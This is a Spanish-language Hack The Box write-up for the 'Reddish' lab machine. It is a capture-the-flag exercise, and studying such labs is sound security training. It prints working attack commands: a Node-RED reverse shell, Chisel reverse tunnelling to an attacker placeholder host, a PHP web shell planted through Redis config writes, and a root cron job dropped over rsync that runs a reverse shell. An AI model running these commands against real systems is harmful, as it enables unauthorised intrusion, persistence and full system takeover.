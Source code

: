 
# 🖥️ Hack The Box - Reddish

**IP:** `10.10.10.94`  
**OS:** Linux (multi-container environment)  
**Dificultad:** Insane 
**Objetivo:** Obtener acceso root en un entorno multi-contenedor que incluye Redis, Node-RED y Rsync.

---

## 🧭 Enumeración Inicial
```bash
curl -s -X POST http://10.10.10.94:1880/
```
Devuelve una estructura de flujo que sugiere acceso a **Node-RED** con ejecución de comandos. Se carga una reverse shell mediante el flujo.

---

## 🐚 Acceso Inicial
- Se usa el flujo de Node-RED para ejecutar una reverse shell apuntando a nuestro listener.
- Dentro del contenedor, se observan dos interfaces de red: `172.18.0.2` y `172.19.0.4`.

---

## 🌐 Enumeración de la red
Se usa un script personalizado para escanear los rangos internos (172.18.0.0/16 y 172.19.0.0/16).  
Se detectan múltiples servicios accesibles:

- `172.19.0.2:6379` – Redis
- `172.19.0.3:80` – Web
- `172.19.0.4` – Node-RED (usado)

---

## 🔁 Port Forwarding con Chisel
```bash
# En atacante:
./chisel server --reverse -p 1234

# En víctima:
./chisel client <IP_ATACANTE>:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
```

---

## 🧠 Redis Exploitation
Se puede usar Redis para escribir archivos directamente en el servidor web.
```bash
echo "<?php system($_REQUEST['cmd']) ?>" > cmd.php
cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
redis-cli config set dir /var/www/html/<ruta>
redis-cli config set dbfilename "cmd.php"
redis-cli save
```
Se obtiene ejecución remota de comandos por web:  
`http://<host>/cmd.php?cmd=id`

---

## 🛠 Reverse Shell desde backup
Se usa `socat` y una reverse shell Perl desde un endpoint vulnerable.

---

## 🧪 Rsync + Cron Exploit (Privesc)
Desde el contenedor web se detecta host `backup (172.20.0.2)` con Rsync.

```bash
# Creamos archivo cron:
echo '* * * * * root sh /tmp/reverse.sh' > reve
rsync reve rsync://backup:873/src/etc/cron.d
```

Se sube script con reverse shell:
```bash
rsync reverse.sh rsync://backup:873/src/tmp/reverse.sh
```

---

## 👑 Root Access
Al activarse el cron job, se recibe una shell como `root@backup`.

```bash
whoami
# root
```

---

## 🧾 Conclusiones
- Máquina interesante por su diseño multi-contenedor.
- Se combinan técnicas: RCE via Node-RED, explotación de Redis, port forwarding con Chisel, y escalada vía Rsync+cron.
- Refuerza conceptos de post-explotación en entornos internos aislados.

✅ ¡Rooted!
